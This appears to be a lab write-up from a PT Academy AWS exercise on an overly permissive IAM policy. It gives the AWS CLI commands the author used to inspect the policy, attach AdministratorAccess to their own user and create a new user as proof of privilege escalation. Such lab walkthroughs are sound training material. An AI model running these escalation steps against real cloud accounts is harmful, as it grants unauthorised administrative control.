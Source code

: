 ### Overly Permissive Permission I

# Pre Requisite

This exercise needs to have the profile configured, this is provided by PT Academy

# Workaround

This exercise start by listing the attached user policies of user student `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222626674-edfff9fa-1cdf-40fb-9594-b98d98c648db.png)

Image above shows a `service` policy, lets show its details `aws iam get-policy --policy-arn arn:aws:iam::800637287098:policy/Service --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222626997-17ad6575-781f-444d-a431-85c183ac64e9.png)

To view policy details for the v1 version of Service policy execute `aws iam get-policy-version --policy-arn arn:aws:iam::800637287098:policy/Service --version-id v1 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222627279-37f1e948-9841-42e2-8590-cd8f199cc7ac.png)

This policy allows to attach any policy to any user. For example if we try to create the user `jllerena` a denied message will be obtained 

![image](https://user-images.githubusercontent.com/46797181/222627762-0b337083-a0ee-4246-b67d-993c7d86df28.png)

Next step is to get the administrator policy, first the arn of this policy is needed to get with `aws iam list-policies --profile PTAcademyJllerena | grep 'AdministratorAccess'` 
![image](https://user-images.githubusercontent.com/46797181/222628339-e882c574-1145-4213-aeb1-4efe4b4ec72d.png)

The arn has been obtained for policy `AdministratorAccess` now attaching this policy if possible with `aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile PTAcademyJllerena`

Once the policy is attached, lets list again the attached policies for user `student` -> `aws iam list-attached-policies --user-name student`

![image](https://user-images.githubusercontent.com/46797181/222628997-d52f47eb-0847-4408-9e48-eefcdad10943.png)

Attempting again to create user `jllerena` with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222629311-7b6083db-23bf-4851-8d01-7e4623888543.png)

In above image it is shown that privilege escalation has been obtained. 


